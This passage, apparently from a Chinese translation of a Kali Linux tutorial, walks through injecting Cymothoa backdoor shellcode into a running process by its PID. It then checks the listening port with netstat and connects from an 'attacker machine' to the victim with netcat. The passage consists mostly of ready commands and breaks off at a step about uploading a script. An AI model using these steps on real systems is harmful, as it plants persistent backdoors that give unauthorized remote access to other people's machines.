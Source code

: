 现在用 cymothoa 感染这个过程。

```
syntax: ./cymothoa -p <pid> -s <shellcode number> -y <listening port>
```

```
command: ./cymothoa -p 5476 -s 1 -y 100
```

*提示:记得检查监听端口(-y 选项)是否已经被使用。*

现在检查端口是否打开

```
command: netstat -l | grep 100<your port here>
```

[![cymothoa](img//e7ea3d1dbecf7ec7928012990548f796.png)](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa5/)

Infecting a process with Cymothoa

**步骤 4** : **从攻击者机器尝试 netcat 连接。**

在 Kali Linux 攻击者系统中打开一个新的终端&启动一个 netcat 连接到我们指定的端口

```
command: nc 192.168.0.102 100 <give your victim ip & port>
```

[![cymothoa](img//4664dd11f50a8ab432a590d1cac2304b.png)](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa12/)

Netcat Connection to Cymothoa Backdoor

你有…！

**第五步** : **准备脚本，上传&设置执行。**
